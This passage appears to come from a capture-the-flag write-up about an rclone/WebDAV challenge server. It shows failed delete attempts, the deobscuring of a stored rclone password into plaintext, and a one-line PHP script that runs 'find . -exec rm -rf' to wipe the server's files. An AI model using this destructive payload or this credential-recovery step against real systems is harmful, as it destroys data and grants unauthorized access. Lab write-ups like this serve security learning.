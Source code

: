 Unfortunately every attempt to delete files or directory fails:

```console
$ ./rclone delete chall:.
2023/10/21 11:04:21 ERROR : ProductDevelopment/2022/ProductRoadmap.pdf: Couldn't delete: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at chal.ctf.games Port 31336</address>
</body></html>: 403 Forbidden
2023/10/21 11:04:21 ERROR : ProductDevelopment/2023/ProductRoadmap.pdf: Couldn't delete: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at chal.ctf.games Port 31336</address>
</body></html>: 403 Forbidden
2023/10/21 11:04:22 ERROR : HumanResources/EmployeeHandbook.pdf: Couldn't delete: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
```

The same goes with synchronisation mechanisms...

We will have to do it without rclone but first we need to decrypt the password which can be done with [Rclone deobscure](https://github.com/maaaaz/rclonedeobscure) :

```console
$ python rclonedeobscure.py -d HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
[+] obscured password   : 'HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5'
[+] deobscured password : 'SuperExtremelySecurePasswordLikeAlways'
```

Note that the script returns the same result with the username, but it turns out the username is in cleartext.

Another method is to catch the `Basic Authorization` in the network traffic when using rclone then decode the base64 credentials.

First I create a PHP script called `delete.php`:

```php
<?php system("find . -exec rm -rf {} \\;"); ?>
```
